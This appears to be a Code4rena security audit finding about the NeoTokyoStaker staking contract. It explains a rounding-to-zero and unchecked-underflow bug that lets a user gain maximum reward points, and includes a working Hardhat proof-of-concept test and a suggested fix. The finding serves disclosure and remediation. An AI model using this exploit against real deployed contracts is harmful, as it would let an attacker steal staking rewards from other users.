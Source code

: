# Original link
https://github.com/code-423n4/2023-03-neotokyo-findings/issues/187
# Lines of code

https://github.com/code-423n4/2023-03-neotokyo/blob/main/contracts/staking/NeoTokyoStaker.sol#L1154-L1164
https://github.com/code-423n4/2023-03-neotokyo/blob/main/contracts/staking/NeoTokyoStaker.sol#L1622-L1631


# Vulnerability details

## Impact
Currently `_stakeLP` function calculates the `points` this way:

```solidity
contracts/staking/NeoTokyoStaker.sol

1155: uint256 points = amount * 100 / 1e18 * timelockMultiplier / _DIVISOR;
```

The whole accounting logic:

```solidity
    unchecked {
        uint256 points = amount * 100 / 1e18 * timelockMultiplier / _DIVISOR;

        // Update the caller's LP token stake.
        stakerLPPosition[msg.sender].timelockEndTime =
            block.timestamp + timelockDuration;
        stakerLPPosition[msg.sender].amount += amount;
        stakerLPPosition[msg.sender].points += points;

        // Update the pool point weights for rewards.
        pool.totalPoints += points;
    }
```

Everything is fine except the `points` value. The calculation is implemented this way:

If someone tries to stake `0.001` which is `1e15` the current calculation will be:
`a = (1e15 * 100) => 1e17`
`b = (a / 1e18) => 1e17 / 1e18 => 0`

This calculation will be rounded to 0 always:
`stakerLPPosition[msg.sender].points += 0`.

То prevent the rounding `amount` should be at least `1e16`, so this can be easily spotted by malicious user and can stake 10 times `0.001` for minimum period of 30 days, which will make his amount to be `1e16`

After this values are:
* `stakerLPPosition[msg.sender].amount = 1e16`
* `stakeLPPosition[msg.sender].points = 0`

Problems come when this user now wants to withdraw his position, calculations are the same way as we mentioned above:

```solidity
    unchecked {
        uint256 points = amount * 100 / 1e18 * lpPosition.multiplier / _DIVISOR;

        // Update the caller's LP token stake.
        lpPosition.amount -= amount;
        lpPosition.points -= points;

        // Update the pool point weights for rewards.
        pool.totalPoints -= points;
    }
```

This time `points` will not be rounded to 0, instead the calculation will behave as intended, means that the calculated `points` will be:

`points = 1e16 * 100 / 1e18 * 100 / 100` => `1e18 / 1e18` => 1

Because the formula is in `unchecked` block, `0 - 1` will give `type(uint256).max` and the current `points` of user will be `type(uint256).max`

NOTE: If he is the first one `pool.totalPoints` also will be that much.

Assuming that the user will stake for minimum 30 days, for this exploit he should wait 10 * 30 days = 300 days.

## Proof of Concept
The following test passes:

```js
    it.only('Get max amount of points', async () => {

        // Configure the LP token contract address on the staker.
        await NTStaking.connect(owner.signer).configureLP(LPToken.address);

        let priorBlockNumber = await ethers.provider.getBlockNumber();
        let priorBlock = await ethers.provider.getBlock(priorBlockNumber);
        aliceStakeTime = priorBlock.timestamp;

        // Stake 0.001, 10 times
        for(let i = 0; i < 10; i++) {
            await NTStaking.connect(alice.signer).stake(
                ASSETS.LP.id,
                TIMELOCK_OPTION_IDS['30'],
                ethers.utils.parseEther('0.001'), //1e15
                0,
                0
            );
        }

        let alicePosition = await NTStaking.getStakerPositions(alice.address);

        alicePosition.stakedLPPosition.amount.should.be.equal(
            ethers.utils.parseEther('0.01') // 1e16
        );
        alicePosition.stakedLPPosition.points.should.be.equal(0); // points = 0

        await ethers.provider.send('evm_setNextBlockTimestamp', [
            aliceStakeTime + ((60 * 60 * 24 * 30) * 10) // for every stake 30 days making it 10 * 30 = 300 days
        ]);

        let aliceInitialLpBalance = await LPToken.balanceOf(alice.address);
        await NTStaking.connect(alice.signer).withdraw(
            ASSETS.LP.id,
            ethers.utils.parseEther('0.01')
        );
        let aliceLpBalance = await LPToken.balanceOf(alice.address);
        aliceLpBalance.sub(aliceInitialLpBalance).should.be.equal(
            ethers.utils.parseEther('0.01')
        );

        alicePosition = await NTStaking.getStakerPositions(alice.address);

        // Alice now has MaxUint256 amount of points
        alicePosition.stakedLPPosition.points.should.be.equal(
            ethers.constants.MaxUint256
        )
    });
```

```
  Testing BYTES 2.0 & Neo Tokyo Staker
    with example configuration
      with staked LP tokens
        ✔ Get max amount of points (347ms)


  1 passing (8s)
```

## Tools Used

Manual, Jest

## Recommended Mitigation Steps

Every time before substracting in `unchecked` block make sure that the calculation will not underflow and the same way will not overflow.

```solidity
require(a >= b);
c = a - b;
```